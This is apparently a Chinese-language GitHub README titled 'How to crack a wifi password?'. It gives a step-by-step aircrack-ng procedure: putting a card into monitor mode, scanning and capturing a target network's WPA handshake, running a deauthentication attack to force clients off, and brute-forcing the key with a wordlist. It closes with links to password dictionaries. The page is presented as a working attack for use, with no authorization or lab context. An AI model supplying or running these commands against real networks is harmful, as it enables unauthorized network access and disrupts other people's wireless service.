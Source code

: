 # 如何破解wifi密码？

## aircrack-ng 命令的详细解释
![C0127 00_06_19_11 Still004](https://github.com/3981877/wifi/assets/60610978/047fd241-0aed-4df0-86a7-4e8088335950)

sudo -i  ：管理员权限

ifconfig ：查看当前的网卡信息

airmon-ng：检查网卡是否支持监听功能的

airmon-ng start wlan0 ：激活无线网卡的监听模式

airodump-ng wlan0 ：扫描当前周边环境的WiFi信号

## 下面里的部分信息根据自己的情况进行替换

抓包命令：airodump-ng -c 11 –bssid 60:32:B1:56:3F:B2 -w /home/lingdu/桌面/handshake wlan0

ACK 死亡攻击：aireplay-ng -0 10 -a 60:32:B1:56:3F:B2 -c F0:72:EA:E8:72:21 wlan0

暴力破解命令：
aircrack-ng -w /home/lingdu/桌面/password.txt -b 60:32:B1:56:3F:B2 /home/lingdu/桌面/handshake-0*.cap


## Github上常用的WPA/WPA2 密码字典+加强版
![The-Demise-of-the-Password](https://github.com/3981877/wifi/assets/60610978/316163ff-1ed1-49f6-b7d8-45a857c92639)


- Github字典下载：https://github.com/conwnet/wpa-dictionary

- 加强版（来源网络）：https://drive.google.com/file/d/1L1mDFRJAcShwU1gBAbECkx7OR_C7Ef90/view?usp=sharing
